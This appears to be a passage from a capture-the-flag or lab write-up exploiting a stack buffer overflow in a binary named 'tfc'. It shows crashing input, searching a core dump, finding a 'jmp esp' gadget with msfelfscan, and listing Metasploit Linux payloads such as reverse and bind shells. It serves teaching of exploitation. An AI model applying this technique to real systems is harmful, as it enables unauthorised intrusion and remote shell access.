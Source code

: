 So, as long as there's only one occurence of ```def0 5bab``` in the core, we have all information we need. Let's check the core.

```
root@kali:~# python -c 'print "A" * 6000' > in.tfc
root@kali:~# ./tfc in.tfc out.tfc 
Segmentation fault (core dumped)
root@kali:~# xxd core | grep 'def0 5bab'
0030700: def0 5bab 5df7 ab43 0690 fe64 6cb0 0b48  ..[.]..C...dl..H
```

Awesome! Now we can craft our exploit and extract its encrypted version from the core.

But we need few more things for our exploit to make it work, address of a ```jmp esp``` instruction to overwrite return address with (to tell the program to jump to the top of the stack) and actual shellcode (we'll use metasploit payload generator).

To get ```jmp esp``` address, we'll use ```msfelfscan```.

```
root@kali:~# msfelfscan -j esp tfc 
[tfc]
0x08048e93 jmp esp
0x08048e93 jmp esp
```

Sweet, the address doesn't have null bytes, so that makes it easier (otherwise it would probably messed up our exploit, as it would be treated as end of string).

Now the shellcode. We'll use metasploit to generate something that would suit our needs.

```
root@kali:~/exploit# msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


Love leveraging credentials? Check out bruteforcing
in Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.10.0-2014100201 [core:4.10.0.pre.2014100201 api:1.0.0]]
+ -- --=[ 1349 exploits - 742 auxiliary - 217 post        ]
+ -- --=[ 340 payloads - 35 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use payload/linux/x86/
use payload/linux/x86/adduser
use payload/linux/x86/chmod
use payload/linux/x86/exec
use payload/linux/x86/meterpreter/bind_ipv6_tcp
use payload/linux/x86/meterpreter/bind_nonx_tcp
use payload/linux/x86/meterpreter/bind_tcp
use payload/linux/x86/meterpreter/find_tag
use payload/linux/x86/meterpreter/reverse_ipv6_tcp
use payload/linux/x86/meterpreter/reverse_nonx_tcp
use payload/linux/x86/meterpreter/reverse_tcp
use payload/linux/x86/metsvc_bind_tcp
use payload/linux/x86/metsvc_reverse_tcp
use payload/linux/x86/read_file
use payload/linux/x86/shell/bind_ipv6_tcp
use payload/linux/x86/shell/bind_nonx_tcp
```